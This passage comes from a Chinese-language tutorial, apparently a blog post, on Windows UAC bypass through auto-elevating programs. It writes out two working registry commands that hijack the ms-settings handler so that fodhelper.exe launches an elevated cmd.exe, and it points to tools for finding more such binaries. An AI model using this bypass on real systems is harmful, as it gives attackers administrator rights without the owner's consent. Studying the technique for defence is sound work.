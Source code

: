 ## 0x13 ByPass UAC的原理 - 自动提升（autoElevate）

具有autoElevate属性True的应用程序会在启动时自动提升权限，而这些应用程序往往都具备微软的签名，微软认为它是可信的。故此，在该程序启动时，将会以管理员身份启动，假设我们通过COM技术或者DLL劫持该应用程序，也能够获得管理员权限，但是，上述两种技术比较苛刻：

* 1、可能需要高权限才能够完成
* 2、分析成本较高


## 0x14 Bypass UAC演示 - fodhelper.exe

Path：C:\Windows\system32\fodhelper.exe

REG：HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command

![][0x12]

```
reg add HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command /d C:\Windows\System32\cmd.exe /f
reg add HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command /v DelegateExecute /t REG_DWORD /d 00000000 /f
```

<video src="https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-12-22/bypass_uac.mp4" controls="controls" width="500px">
哎呀~ 换个浏览器试试吧！
</video>

### ByPass UAC演示 - fodhelper.exe（自动化分析）

* fodhelper.exe
* eventvwr.exe

配置项：

![][0x14]

调用进程：


![][0x15]

利用过程：

![][0x16]

## 0x15 挖掘ByPass UAC的方法

### 寻找自动提升权限的应用程序 – Sigcheck.exe


Strings与Sigcheck，这两款工具目前均由微软官方提供，主要用于查看文件相关信息。

下载地址：https://docs.microsoft.com/zh-cn/sysinternals/downloads/
